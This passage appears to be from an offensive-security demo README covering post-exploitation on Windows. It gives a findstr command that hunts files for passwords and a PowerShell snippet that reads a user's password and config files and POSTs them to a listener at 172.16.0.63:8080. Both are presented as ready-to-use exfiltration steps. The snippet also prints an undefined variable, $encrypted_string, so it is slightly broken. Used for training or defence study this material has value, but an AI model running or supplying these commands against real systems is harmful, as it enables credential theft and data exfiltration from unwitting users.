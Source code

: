 ## Finding information

In this demo, we looked for sensitive information using the findstr command:

``` findstr /si password *.txt *.xslx *.csv *.conf *.config ```

There are many other tools which can accomplish this. 

As for getting it out, if you have a shell you can copy+paste, but for
larger volumes of data, Invoke-WebRequest works fine:

```
$file1 = Get-Content -Path C:\Users\Shane\Documents\pass.txt -Raw
$file2 = Get-Content -Path C:\Users\Shane\Downloads\config.ini -Raw

$content = $file1 + "`n=====`n" + "$file2"

Write-Host $encrypted_string

Invoke-WebRequest -Uri http://172.16.0.63:8080 -Method Post -Body $content 
```

Bonus points for encryption. This can be accomplished with ConvertTo-SecureString, but Microsoft makes it as painful as possible.
